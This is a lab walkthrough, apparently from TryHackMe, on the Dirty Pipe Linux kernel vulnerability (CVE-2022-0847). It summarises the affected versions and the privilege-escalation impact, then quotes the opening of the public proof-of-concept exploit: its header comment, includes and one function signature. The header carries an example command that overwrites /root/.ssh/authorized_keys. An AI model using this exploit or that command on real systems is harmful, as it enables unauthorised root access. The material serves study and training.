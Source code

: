 # Dirty Pipe: CVE-2022-0847
[https://tryhackme.com/room/dirtypipe](https://tryhackme.com/room/dirtypipe)

Difficulty: Walkthrough

## Introduction
- Discovered in March 2022 by Max Kellerman
- Affect Linux Kernel from versions 5.8 but was fixed in Linux 5.16.11, 5.15.25 and 5.10.102.
- Even included Android phones.
- Allows an attacker to arbitrarily overwrite files on the system without the correct permissions which can lead to horizontal & vertical privilege escalation.

## Weaponised PoC

> Max Kellerman's PoC exploit code
_Source: https://dirtypipe.cm4all.com/_
```c
/* SPDX-License-Identifier: GPL-2.0 */
/*
 * Copyright 2022 CM4all GmbH / IONOS SE
 *
 * author: Max Kellermann <max.kellermann@ionos.com>
 *
 * Proof-of-concept exploit for the Dirty Pipe
 * vulnerability (CVE-2022-0847) caused by an uninitialized
 * "pipe_buffer.flags" variable.  It demonstrates how to overwrite any
 * file contents in the page cache, even if the file is not permitted
 * to be written, immutable or on a read-only mount.
 *
 * This exploit requires Linux 5.8 or later; the code path was made
 * reachable by commit f6dd975583bd ("pipe: merge
 * anon_pipe_buf*_ops").  The commit did not introduce the bug, it was
 * there before, it just provided an easy way to exploit it.
 *
 * There are two major limitations of this exploit: the offset cannot
 * be on a page boundary (it needs to write one byte before the offset
 * to add a reference to this page to the pipe), and the write cannot
 * cross a page boundary.
 *
 * Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * Further explanation: https://dirtypipe.cm4all.com/
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
```